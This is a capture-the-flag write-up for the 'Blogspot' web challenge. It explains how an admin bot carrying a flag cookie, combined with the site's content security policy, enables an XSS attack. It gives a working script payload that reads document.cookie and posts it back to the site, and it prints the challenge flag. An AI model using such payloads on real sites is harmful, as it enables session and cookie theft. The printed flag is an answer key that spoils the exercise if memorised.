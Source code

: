 # Blogspot
Category: Web | 425pts

## Challenge Description
> Jaga created an internal social media platform for the company, can you leak anyone's information?

## Analysis
Glancing through the source code provided and challenge website, we can guess that this challenge is about Cross-Site Scripting (XSS) attacks, more specifically reflected XSS, for the following reasons:
- There is an admin bot with the flag in its cookies that visits the posts you wrote (and hence control) everytime you submit a new post  
	<details>
	<summary>Snippet of bot.js</summary>

	```js
	export const viewPosts = async () => {
		try {
			const browser = await puppeteer.launch(browser_options);
			let context = await browser.createIncognitoBrowserContext();
			let page = await context.newPage();

			let token = await sign({ username: 'admin' });
			await page.setCookie({
				name: "session",
				'value': token,
				domain: "127.0.0.1",
			});
			await page.setCookie({
				name: "flag",
				'value': "REDACTED",
				domain: "127.0.0.1",
			});
			await page.goto('http://127.0.0.1:1337/blog', {
				waitUntil: 'networkidle2',
				timeout: 8000
			});
			await browser.close();
		} catch(e) {
			console.log(e);
		}
	};
	```
	</details>

However, at the same time, there is a content security policy we have to take note of:
```js
app.use(function (req, res, next) {
	res.setHeader(
	  'Content-Security-Policy',
	  "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
	);
	next();
  });
```

## Solution
We can use the following payload as a post to get the flag:
```js
qqq<script>xhr4=new XMLHttpRequest();var url4='/post';var a=document.cookie;xhr4.open('POST',url4,true);xhr4.setRequestHeader('Content-Type','application/json');var data=JSON.stringify({"title":"here","content":a});xhr4.send(data);</script>
```

## Explanation
Upon loading the page, the bot runs the script and sends a POST request to the `/post` endpoint with the flag in the body. The flag is then displayed on the page.

## Flag
`STF22{s1mpl3_p0stxSs:)}`